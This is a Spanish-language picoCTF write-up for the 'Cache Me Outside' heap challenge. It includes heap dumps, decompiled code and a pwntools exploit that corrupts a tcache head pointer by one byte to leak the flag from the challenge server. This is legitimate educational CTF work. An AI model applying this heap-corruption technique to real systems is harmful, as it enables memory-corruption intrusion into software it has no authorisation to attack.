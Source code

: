 En este ejercicio nos ofrecen tres archivos:

* heapedit (el binario)
* Makefile (información sobre cómo se compiló el programa)
* libc.so.6

Si intentamos ejecutar el binario veremos que no funciona:

```c
./heapedit
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```

Como nos dan una libc personalizada, vamos a usar nuestra herramienta de confianza: **pwninit**. Además, crearemos un archivo `flag.txt` para evitar posibles errores en el futuro.

```c
You may edit one byte in the program.
Address: 10
Value: 10
t help you: this is a random string.
```

Ahora podemos empezar a ver qué hace el programa. Parece que, proporcionando una dirección y un valor, podemos cambiar un byte a voluntad en una dirección bajo nuestro control.

Vamos a echarle un vistazo al heap del programa en ejecución:

```c
0x6037f00x00000000000000000x0000000000000091................
0x6038000x00000000000000000x662072756f592021........! Your f <-- tcachebins[0x90][1/2]
0x6038100x203a73692067616c0x706d616320736747lag is: Ggs camp
0x6038200x0000000a216e6f650x0000000000000000eon!............
...
0x6038900x00000000006038000x276e6f7720736968.8`.....his won'<-- tcachebins[0x90][0/2]
0x6038a00x7920706c656820740x73696874203a756ft help you: this
0x6038b00x61722061207369200x727473206d6f646eis a random str
...
```

Como vemos, hay mucha información. Al principio está el chunk del tcache, y luego varios chunks; dos de ellos están libres y alojados en la tcache. Si pensamos un poco, podemos intuir que el programa, tal como funciona, imprime en consola el contenido del chunk que está en la cabeza de la lista. Es decir, hay dos chunks en `tcachebins` y justo el que está en la cabeza es el que se imprime en pantalla.

Si seguimos observando, podemos ver que el otro chunk imprime una frase y, a su vez, la flag. Entre la dirección de un chunk y el otro solo hay un byte de diferencia. Así que, si unimos eso con el hecho de que podemos modificar un byte a voluntad, sabemos que tenemos que hacer que la cabeza de `tcachebins` cambie de `0x603890` a `0x603800`, cambiando el último byte de `0x90` a `0x00`.

Lo que pasa es que no tenemos ningún punto de referencia para calcular direcciones. Comprobemos primero si el binario tiene PIE:

```c
checksec
File:     /home/ub1cu0/Desktop/PWN/picoCTF/Cache_me_outside/heapedit_patched
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
Stripped:   No
```

No tiene PIE, por lo que si conseguimos un offset siempre será el mismo. Primero necesitamos saber cómo funciona el valor de la dirección en el programa:

```c
*(undefined *)((long)direccion + (long)local_a0) = valor;
```

Como vemos, en realidad nuestra dirección es un offset en decimal respecto a otra dirección. Solo nos queda saber cuál es esa otra dirección:

```c
for (local_a4 = 0; local_a4 < 7; local_a4 = local_a4 + 1) {
    local_98 = (undefined8 *)malloc(0x80);
    if (direccion_base == (undefined8 *)0x0) {
      direccion_base = local_98;
    }
    *local_98 = 0x73746172676e6f43;
    local_98[1] = 0x662072756f592021;
    local_98[2] = 0x203a73692067616c;
    *(undefined *)(local_98 + 3) = 0;
    strcat((char *)local_98,local_58);
}
```

Según esto, sabemos que la dirección base es la del primer chunk alojado. Vamos a calcular qué distancia hay entre ese chunk y la dirección que queremos modificar:

```c
// Primero miramos dónde se guarda la cabeza que queremos modificar 
pwndbg> tcache
tcache is pointing to: 0x602010 for thread 1
{
  counts = "\000\000\000\000\000\000\000\002", '\000' <repeats 55 times>,
  entries = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x603890, 0x0 <repeats 56 times>}
}
pwndbg> dq 0x602010 20
...
pwndbg> db 0x602080 16
0000000000602080     00 00 00 00 00 00 00 00 90 38 60 00 00 00 00 00 // 8 bytes basura
```

La dirección del primer chunk la obtenemos con el comando `vis` en pwndbg.

Ahora que tenemos los datos necesarios, podemos hacer el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./heapedit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b main
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("mercury.picoctf.net", 31153)

def main():
    io = conn()
    
    offset = -0x1420 + 0x08
    valor = 0x00

    info(f'Offset = {offset}')

    io.sendlineafter(b'Address: ', str(offset).encode())
    io.sendlineafter(b'Value: ', "\0")
    io.interactive()

if __name__ == "__main__":
    main()
```

Y la salida:

```c
[+] Opening connection to mercury.picoctf.net on port 31153: Done
[*] Offset = -5144
...
lag is: picoCTF{SECRET}
...
[*] Got EOF while reading in interactive
```

¡Funciona, gracias por leer!
